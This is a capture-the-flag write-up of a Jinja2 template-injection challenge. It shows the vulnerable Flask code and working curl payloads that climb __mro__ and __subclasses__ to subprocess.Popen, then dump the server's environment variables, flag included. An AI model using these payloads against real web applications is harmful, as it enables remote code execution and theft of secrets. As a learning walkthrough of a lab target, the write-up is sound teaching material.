 # WAF Bypass

## ``______``

### Web

### Flag

```
WH2021{simple_ssti_bypass_is_so_simple_that_you_dont_need_a_brain_hahahahaha_SG-BTBLP}
```

_Is that a long flag or what_

### Steps

We should first take a look at ``app.py``, given that there don't seem to be any obvious attack or input vectors.

```python
if request.method == 'POST':
    payload = request.form['quote']
else:
    payload = "No WAF is a Crime"
    # WAF REDACTED
    template = '''
    %s''' % payload
    quote = render_template_string(template)
    return quote
```

According to ``@Ocean#5199``,

> The WAF filters `self`, `config`, `import` and `os`

Seems like we can pass a ``quote`` parameter by POST to ``/``, and the site is vulnerable to SSTI (our input is put into the template directly). We can test this by inputting ``{{7*"7"}}``, the litmus test for SSTI attacks. We are greeted with:

```bash
curl 'http://chals.whitehacks.ctf.sg:50401/' --data 'quote={{7*"7"}}'
7777777
```

This matches the behavior for Jinja2, which is common. We can now start looking online for SSTI payloads for Jinja2, such as https://blog.nvisium.com/p255. This was the basis for the exploit described below.

The core of the exploit is the ``__mro__``  attribute. By the documentation, it is

> a tuple of classes that are considered when looking for base classes during method resolution.

What. [This link](https://www.geeksforgeeks.org/method-resolution-order-in-python-inheritance/) provides a decent explanation of what this does. Basically, it stores the "parent" of whatever we are calling. By my understanding, this is similar ``__proto__`` in JavaScript (correct me if I'm wrong). Hence, the article describes a method where we use ```''```, an empty string, and climb up Python's hierarchy of methods.

```
>>> ''.__class__.__mro__
(<class 'str'>, <class 'object'>)
```

This gives us a tuple. We can now traverse up to ``object``, and move down using ``__subclasses__`` as described.

```bash
curl 'http://chals.whitehacks.ctf.sg:50401/' --data-urlencode 'quote={{ "".__class__.__mro__[1].__subclasses__() }}'
[&lt;class &#39;type&#39;&gt; ... class &#39;unicodedata.UCD&#39;&gt;]
```

Whoa that's a lot of things. Using some VSCode trickery, we can find out that ``subprocess.Popen`` is index 425 on ``__mro__``. Hence, we can start moving down in that direction:

```bash
curl 'http://chals.whitehacks.ctf.sg:50401/' --data-urlencode 'quote={{ "".__class__.__mro__[1].__subclasses__()[425]("printenv",shell=True,stdout=-1).communicate() }}'
(b&#39;HOSTNAME=37e43fa0725a\nPYTHON_PIP_VERSION=21.0.1\nSHLVL=1\nHOME=/root\nFLASK_RUN_FROM_CLI=true\nGPG_KEY=0D96DF4D4110E5C43FBFB17F2D347EA6AA65421D\nFLASK_APP=app.py\nPYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/b60e2320d9e8d02348525bd74e871e466afdf77c/get-pip.py\nFLASK_RUN_HOST=0.0.0.0\nPATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\nLANG=C.UTF-8\nPYTHON_VERSION=3.7.10\nPWD=/code\nPYTHON_GET_PIP_SHA256=c3b81e5d06371e135fb3156dc7d8fd6270735088428c4a9a5ec1f342e2024565\nFLAG=WH2021{simple_ssti_bypass_is_so_simple_that_you_dont_need_a_brain_hahahahaha_SG-BTBLP}\n&#39;, None)
```

At this point, this is pretty standard usage of ``subprocess.Popen``, except we are not using it directly, rather by moving up and down Python's MRO. This essentially gives us RCE as we have a shell.